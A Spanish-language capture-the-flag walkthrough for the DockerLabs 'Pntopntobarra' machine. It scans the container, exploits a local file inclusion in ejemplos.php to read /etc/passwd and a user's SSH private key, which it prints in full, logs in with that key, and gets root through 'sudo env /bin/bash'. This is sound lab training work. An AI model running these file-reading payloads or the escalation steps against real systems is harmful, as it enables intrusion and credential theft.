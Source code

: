 ```yaml
---
icon: flag
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Pntopntobarra DockerLabs (Easy)

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip pntopntobarra.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh pntopntobarra.tar
```

Info:

```
                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-21 13:52 EST
Nmap scan report for express.dl (172.17.0.2)
Host is up (0.000026s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 2e:4a:72:a0:b2:40:3a:36:99:c9:2d:a7:62:61:16:e7 (ECDSA)
|_  256 7c:7d:78:7a:20:2b:d0:75:92:26:1b:41:3c:ca:79:3c (ED25519)
80/tcp open  http    Apache httpd 2.4.61 ((Debian))
|_http-title: Advertencia: LeFvIrus
|_http-server-header: Apache/2.4.61 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.18 seconds
```

Si entramos a la pagina, veremos una simulacion de una infeccion de un virus, pero si le damos al boton llamado `ejemplo de computadoras infectadas` podremos ver en la `URL` que es un archiv `.php` y que lleva un parametro llamado `images` sujeto a el, probaremos a ver si es vulnerable a la lectura de archivos del sistema.

```
URL = http://<IP>/ejemplos.php?images=./ejemplo1.png
```

Ahora probaremos a meter lo siguiente:

```
URL = http://<IP>/ejemplos.php?images=/etc/passwd
```

Y veremos lo siguiente:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:102::/nonexistent:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
nico:x:1000:1000:,,,:/home/nico:/bin/bash
```

Vemos que funciona, tambien podremos ver que hay un usuario llamado `nico`, si probamos a tirarle un ataque de fuerza bruta veremos que no funciona, por lo que vamos a ver si con dicha vulnerabilidad le sacamos alguna clave privada como por ejemplo el `id_rsa`.

## Escalate user nico

```
URL = view-source:http://<IP>/ejemplos.php?images=/home/nico/.ssh/id_rsa
```

Info:

```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEA07BRWc6X8Yz+VwO1l5UAqcFE5K+1yQ9QxFBrt8DzyC9x7o0tluCk
4f4gObHgatf/tXX/z8oGKYnAY48/vctJz//3M9phYgcFhoDOs+F3NgyYZ7oZN/TeEgTlql
Z4QGyjn5akiLmDwSTqEqd5Tla+KnNVCEHO2MpoDTWJB4uI6TdHt3iDX19jszJ+r9BNZODk
O7RUkL72sq2pAHLfhlPlaDdH50cd/1bNOkm45U4JmXxTrWNh4AmaZdHGIPiQpvRUJDXack
9tfWaxXBRG95YHh1DMg8LZujKkk35XbesoMBK+eh2mBdISDxR7+XPTyiyGAJ0Qts2TjIfm
2Agqzwbjl1uPffyMrjS2t5gzKcWuPDXWKXmy0rF6ZEWw2hKdC3oY/rxM+zg5B+cnmCTja5
5AgpYgnxN7PD4BLqGFP5Nu1bZ3txduoDlEROHkmsIAJMwy6JNRg7qNL11m2S8YuxR5Iyi5
gpgnD3PQxEepQ0L/7xrUELUvf4jnaLnNBiFaDob7AAAFiNB8ulDQfLpQAAAAB3NzaC1yc2
EAAAGBANOwUVnOl/GM/lcDtZeVAKnBROSvtckPUMRQa7fA88gvce6NLZbgpOH+IDmx4GrX
/7V1/8/KBimJwGOPP73LSc//9zPaYWIHBYaAzrPhdzYMmGe6GTf03hIE5apWeEBso5+WpI
i5g8Ek6hKneU5WvipzVQhBztjKaA01iQeLiOk3R7d4g19fY7Myfq/QTWTg5Du0VJC+9rKt
qQBy34ZT5Wg3R+dHHf9WzTpJuOVOCZl8U61jYeAJmmXRxiD4kKb0VCQ12nJPbX1msVwURv
eWB4dQzIPC2boypJN+V23rKDASvnodpgXSEg8Ue/lz08oshgCdELbNk4yH5tgIKs8G45db
j338jK40treYMynFrjw11il5stKxemRFsNoSnQt6GP68TPs4OQfnJ5gk42ueQIKWIJ8Tez
w+AS6hhT+TbtW2d7cXbqA5RETh5JrCACTMMuiTUYO6jS9dZtkvGLsUeSMouYKYJw9z0MRH
qUNC/+8a1BC1L3+I52i5zQYhWg6G+wAAAAMBAAEAAAGAESvILYS4hnttVhmS7UzE1QA8Wm
B2WmzHnGT5l9oq7B4NG9CP1iE6vqoiawumrIQA1fNQYMZ+YXgvBuRjwz1uK1UT9DzOkWkI
ZbSlD6pGRTgYVLGfwg42xTdoebyx3GfzjcpmZkDGEzCvW/wBtv0KR987EoRkBunELu4cw2
PqIyC8zIEWBvJx3+NEq3Y2EOy9Fqq2AVe8Ixo7DzJCN18uyJlTV8tI/6FG3GeGe/MsjCqt
ju70zXt57rBpZdtDwIco9kjkhfoF9HQrfRTDlZFwvsPDs1gVpLERXybguKAp2oxZ/CdzoZ
WbYDasDAoXNgbOADgkgc6TWslXinpt4SdGiObbZWtL9eb1KuggZL1NMq4d/MphApMA+gxt
X1aMEV+fiQ0UPNd9WIJWhBiyu4Q+GpeavHeDULGsObuDyfEQKtzbxoX3cTscQ48qAI+y+F
jVELxly8iGsmLTZGGwlhlhhbYg5Tuf2hsPEOXZAzjxgYrTwBm/fB6esLPGtR1pV5nhAAAA
wHgMkNkzMNwCHO0Lme3p3As9+9yXfOiNmtbgcVIECMLQ97r8TFvqQMO28gxbBNzvkCDVEq
5yi0ErDFxPZJdqFLyRGfDCLyeggUKXr6rVXByo3CQwUgL7U06nusTNzczibWTDxQNbVhJS
5o68k1ltgYarJFRPLxQThj9vyyTZk5jLWuHpmG7hEM0krA+9PK9OVI9McvH4q+rutLFDG2
GdQcJd1fz3ATJWyHDOA6/0tHZKIKst4925nJKC/c5A6SzA1QAAAMEA85OwFy2js+ZdDiNg
AEGnJfFRu7bC/cE0kNi4HnVBA3mjz1OP4NE/OudX6v0NObvw2ZgoUTAxAduQ+sCHwyI73n
XM31TeyMRbAfpCZ92xRsllCFS2zLmpy8jzPu1BzPGDI0UoWQs7VPeXm13CexexGcmOXxuv
9lqIIv+9GFaB5TxS6K7yaySgrvI3BUmvqGCx4fnWNf/6yrZ1raObcb3yGvqnrCexDySYq3
hXvIai+6lKnPeetrE5LshmcXdJwUIFAAAAwQDefEaIqWZ3JcxAD04Z8/O6uhZ3WOYoLuHX
fJlc5trofrBQL5xa4P53ngHUxA4F2DbQCqbPaSCZFirq3IUEUzzOZ5Npvuur5VO41EtxTp
CC2BZ0iK2UIBhk/Q62gLCU2EnuHtu6dbLEeuDF6tIlKXGbw0Lib54wRFHHQyETjJI3UGjV
QkAljDAS+mPSQgQ0Mdc/KUBZ8e3AE39dxKcYs5WFyfiiZ72TJJekOiJICcOAPLH0iP+lru
ayyxi3hh3t9P8AAAARbmljb0AzYTQ4YjEyYjU3YTIBAg==
-----END OPENSSH PRIVATE KEY-----
```

Y vemos que funciona correctamente, por lo que nos metemos mediante la `clave privada` del usuario `nico`.

## SSH

```shell
nano id_rsa

#Dentro del nano
<CONTENT_ID_RSA>
```

Lo guardamos y el ponemos los permisos adecuados.

```shell
chmod 600 id_rsa
```

Y ahora nos conectamos con dicha clave:

```shell
ssh -i id_rsa nico@<IP>
```

Y con esto ya estaremos dentro con dicho usuario.

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for nico on 0806c600fecc:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User nico may run the following commands on 0806c600fecc:
    (ALL) NOPASSWD: /bin/env
```

Veremos que podemos ejecutar el binario `env` como el usuario `root`, por lo que haremos lo siguiente:

```shell
sudo env /bin/bash
```

Con esto veremos que somos `root`, por lo que habremos terminado la maquina.
